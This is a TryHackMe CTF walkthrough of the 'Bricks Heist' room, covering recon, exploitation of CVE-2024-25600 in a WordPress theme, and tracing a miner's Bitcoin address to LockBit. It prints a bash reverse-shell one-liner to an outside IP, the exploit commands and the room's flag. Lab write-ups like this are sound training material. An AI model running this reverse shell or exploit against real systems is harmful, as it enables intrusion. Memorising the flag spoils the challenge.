 ```yaml
---
title: "TryHackMe - Bricks Heist"
date: 2025-02-21 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation, CVE-2024-25600, bitcoin, blockchain]

---
```


---

## Bricks Heist - TryHackMe Walkthrough

### 1. Initial Scanning

I started by scanning the target machine with Nmap:

```bash
nmap -v 10.10.145.97
```

### 2. Identifying the Web Application

Visiting the website, I immediately noticed it was running on WordPress. To gather more details, I attempted a scan with WPScan:

```bash
wpscan --url https://bricks.thm --disable-tls-checks
```

### 3. Finding Exploits

From the scan results, I found that the site was using the "Bricks" theme version 1.9.5. I searched for exploits and found:

- [CVE-2024-25600 Exploit](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)
- [Exploit tool](https://github.com/Chocapikk/CVE-2024-25600)

### 4. Exploiting the Vulnerability

I ran the exploit according to the provided instructions. If you encounter issues installing the `alive-progress` package, use:

```bash
pip install alive-progress --break-system-packages
```

Then, I executed:

```bash
python3 bricks.py -u https://bricks.thm
```

### 5. Obtaining a Reverse Shell

To establish a reverse shell, I used Netcat:

```bash
nc -lvnp 4444
```

On the target machine:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.8.21.77/4444 <&1'
```

Upon connection, I retrieved the first flag from:

```
650c844110baced87e1606453b93f22a.txt
```

**Flag:** `THM{fl46_650c844110baced87e1606453b93f22a}`

### 6. Privilege Escalation

I investigated running processes and found the system was running Ubuntu 20.04.6:

```bash
cat /etc/issue
```

Checking active services:

```bash
systemctl list-units --type=service --state=running
```

A suspicious service named `ubuntu.service` was running:

```bash
systemctl cat ubuntu.service
```

The service executed a process called `nm-inet-dialog` from `/lib/NetworkManager`. Upon inspecting the directory, I found a file `inet.conf` containing interesting information—Bitcoin miner logs and an encoded string:

```
5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```

Decoding the string using CyberChef and ChatGPT revealed Bitcoin address:

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

I discovered that this could be a Bitcoin SegWit address used for BTC transactions. However, SegWit addresses are typically between 42-62 characters long, whereas the one I found was 86 characters long, suggesting it might be duplicated. After splitting it in half, I obtained the valid address:
```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```
Researching further, I found that this address was associated with LockBit transactions:

- [BlockChain](https://www.blockchain.com/explorer/addresses/btc/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa)
### Conclusion

This room demonstrated various techniques, from reconnaissance and vulnerability exploitation to privilege escalation and cryptocurrency investigation. It was an interesting challenge that highlighted real-world attack vectors!

